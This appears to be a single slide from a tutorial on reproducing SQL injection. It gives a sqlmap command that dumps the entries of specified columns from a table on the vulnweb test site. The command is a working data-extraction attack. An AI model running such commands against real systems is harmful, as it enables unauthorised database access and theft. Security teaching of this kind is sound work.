

# Steps To Reproduce (Continued...)

The below command gives all the entries of the specified columns (specified at coulumnameslistseparatedbycomma) of the specified table (say tablename).
sudo sqlmap -u "http://testasp.vulnweb.com/showforum.asp?id=0" -T tablename -C coulumnameslistseparatedbycomma --dump